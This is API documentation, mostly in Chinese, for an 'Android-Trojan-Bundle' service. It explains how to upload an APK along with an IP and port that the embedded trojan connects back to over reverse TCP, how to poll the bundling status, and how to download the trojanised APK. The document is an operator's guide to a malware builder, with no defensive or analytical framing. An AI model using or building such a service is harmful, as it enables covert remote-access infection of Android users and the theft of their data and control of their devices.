## Android-Trojan-Bundle接口说明


### upload接口:

	Method:POST
	URL: /upload?ip=192.168.1.123&port=8888
	Upload Format：the form must has enctype="multipart/form-data"
	Upload Format: <input type="file" name="file"> 

请求参数说明:

	ip: 木马反弹tcp的ip地址
	port: 木马反弹tcp的端口

返回参数说明:

	上传失败格式: {"des":"xxx", "status":"err"}
	上传成功格式: {"des":"ok", "status":"ok", "apkname":"xxx.apk"}

| 参数 | 说明 |
| --- | --- |
| status | 两个值: ok&nbsp;&nbsp;&nbsp;&nbsp;err |
| des | 如果上传失败，描述错误信息；方便调试，建议写入日志 |
| apkname | apk name，用于检测后台绑定进度或者下载绑定完成的apk |




### checkstatus接口:

	Method:GET 
	URL: /checkstatus/<apkname>

返回参数说明:

	格式: {"des":"xxx", "status":"xxx"}

| 参数 | 说明 |
| --- | --- |
| status | 四个值: processing&nbsp;&nbsp;&nbsp;&nbsp;completed&nbsp;&nbsp;&nbsp;&nbsp;uncompleted&nbsp;&nbsp;&nbsp;&nbsp;error |
|		| processing: apk正在捆绑中 |
|		| completed: 捆绑完成 ， |
|		| uncompleted: apk捆绑失败 |
|		| err: 任务不存在 |
| des | 如果出错，描述错误信息；方便调试，建议写入日志 |



### download接口:

	Method:GET 
	URL: /download/<apkname>

返回参数说明:
	
	下载失败，状态码为：404
	下载失败响应数据格式: {"des":"xxx", "status":"err"}

| 参数 | 说明 |
| --- | --- |
| status | err |
| des | 描述错误信息；方便调试，建议写入日志|
